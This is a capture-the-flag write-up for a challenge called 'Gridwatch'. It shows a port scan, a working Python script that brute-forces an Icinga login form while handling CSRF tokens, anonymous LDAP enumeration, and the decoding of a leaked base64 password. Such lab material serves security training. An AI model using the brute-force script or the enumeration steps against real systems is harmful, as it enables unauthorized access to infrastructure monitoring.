



#  Gridwatch (3 points)

Hi, emergency troubleshooter,

the entire Monitoring Department went on a teambuilding trip to the Cayman
Islands, into the wilderness outside civilization (and without any
telecommunications), and forgot to appoint a deputy during their absence.
Verify whether all power plants are still in good condition.

The only thing we know about the monitoring team is that they registered the
domain `gridwatch.powergrid.tcc`.

Stay grounded!

## Hints

* Many systems like to keep things simple — their usernames often resemble
  their own names.

## Solution

The initial quick `nmap` scan shows that the host has a web server listening
on port `8080`.

```
$ nmap gridwatch.powergrid.tcc
Starting Nmap 7.95 ( https://nmap.org )
Nmap scan report for gridwatch.powergrid.tcc (10.99.25.51)
Host is up (0.014s latency).
Other addresses for gridwatch.powergrid.tcc (not scanned): 2001:db8:7cc::25:51
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

When we open that site in a browser, we can see that it runs [Icinga]. However,
we need credential to get in.

As the hint suggests, many systems use simple login names, so we can try to
guess a username (let's try `icinga`) and try some of the common passwords.
Since `hydra` doesn't seem to be able to handle CSRF tokens that the login
form uses, we can put together a custom script.

```python
#!/usr/bin/env python3
import sys
import requests
from bs4 import BeautifulSoup

# Configuration
LOGIN_URL = "http://gridwatch.powergrid.tcc:8080/authentication/login"
CSRF_FIELD = "CSRFToken"
FAILED_INDICATOR = "Incorrect username"
def create_form_data(password, csrf_token):
    return {
        "rememberme": 0,
        "redirect": "",
        "formUID": "form_login",
        "btn_submit": "Login",
        "username": "icinga",
        "password": password,
        CSRF_FIELD: csrf_token
    }

def get_csrf_token(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    csrf_input = soup.find('input', {'name': CSRF_FIELD})
    if csrf_input:
        csrf_token = csrf_input.get('value')
        return csrf_token
    else:
        raise ValueError(f"CSRF token field '{CSRF_FIELD}' not found in the form")

def main():
    session = requests.Session()
    response = session.get(LOGIN_URL)
    try:
        csrf_token = get_csrf_token(response)
    except Exception as e:
        print(f"Error getting CSRF token: {e}")
        sys.exit(1)

    # Read passwords from stdin
    for line in sys.stdin:
        password = line.strip()
        if not password:
            continue

        try:
            response = session.post(LOGIN_URL, data=create_form_data(password, csrf_token))
            if FAILED_INDICATOR in response.text:
                # Extract new CSRF token for next attempt
                csrf_token = get_csrf_token(response)
            else:
                # Success or different error - investigate
                print(f"POTENTIAL SUCCESS with: {password}")
                return
        except Exception as e:
            print(f"Error with {password}: {e}")

if __name__ == "__main__":
    main()
```

Running this using "pwdb top 1000" list from `seclists` reveals that the system
uses really simple credentials.

```
$ cat /usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-1000.txt | ./bruteforce_with_csrf.py
POTENTIAL SUCCESS with: test
```

After logging in using `icinga` as username and `test` as password we can see
some services (HTTP, LDAP and DB).



The hostnames do not seem to be available, however, we can see the IPs on the
service details page, e.g. the address of LDAP server is `10.99.25.52`.



The server is up and responding, so we can try to find the base DN.

```
$ ldapsearch -x -H ldap://10.99.25.52 -s base -b "" namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts
#

#
dn:
namingContexts: dc=ldap,dc=powergrid,dc=tcc

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

If we dump all the entries and take a look at them, we can see one particularly
interesting record

```
$ ldapsearch -x -H ldap://10.99.25.52 -b "dc=ldap,dc=powergrid,dc=tcc"
# extended LDIF
#
# LDAPv3
# base <dc=ldap,dc=powergrid,dc=tcc> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

(... output truncated ...)

# mscott, Users, ldap.powergrid.tcc
dn: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: mscott
cn: mscott
sn: Scott
displayName: Michael Scott
description: UHdkIHJlc2V0IHRvIFRoYXRzd2hhdHNoZXNhaWQK
```

The description looks like something base64-encoded, soe let's take a look at
what it is.

```
$ echo UHdkIHJlc2V0IHRvIFRoYXRzd2hhdHNoZXNhaWQK | base64 -d
Pwd reset to Thatswhatshesaid
```

The final step is to logout from the `icinga` account and to log in using the
discovered credentials for `mscott`.  The dashboard shows the flag as a status
of `fusion.powergrid.tcc` service.



[Icinga]: https://icinga.com/
